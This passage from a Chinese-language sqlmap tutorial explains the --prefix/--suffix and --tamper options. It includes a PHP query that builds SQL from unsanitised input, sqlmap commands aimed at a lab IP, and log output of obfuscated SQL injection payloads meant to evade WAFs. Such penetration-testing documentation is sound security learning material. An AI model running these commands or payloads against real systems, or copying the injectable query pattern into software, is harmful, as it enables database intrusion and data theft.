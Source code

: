 例如，代码中是这样调用数据库的：
```
$query = "SELECT * FROM users WHERE id=(’" . $_GET[’id’] . "’) LIMIT 0, 1"; 
```
这时你就需要`--prefix`和`--suffix`参数了：
```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"
```
这样执行的SQL语句变成：
```
$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 
```
修改注入的数据

参数：`--tamper`

sqlmap除了使用CHAR()函数来防止出现单引号之外没有对注入的数据修改，你可以使用`--tamper`参数对数据做修改来绕过WAF等设备。

下面是一个tamper脚本的格式：
```
# Needed imports
from lib.core.enums import PRIORITY
# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL
def tamper(payload):
    '''
    Description of your tamper script
    '''
    retVal = payload
    # your code to tamper the original payload
    # return the tampered payload
    return retVal
```
可以查看 tamper/ 目录下的有哪些可用的脚本

例如：
```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...]
```
探测
探测等级
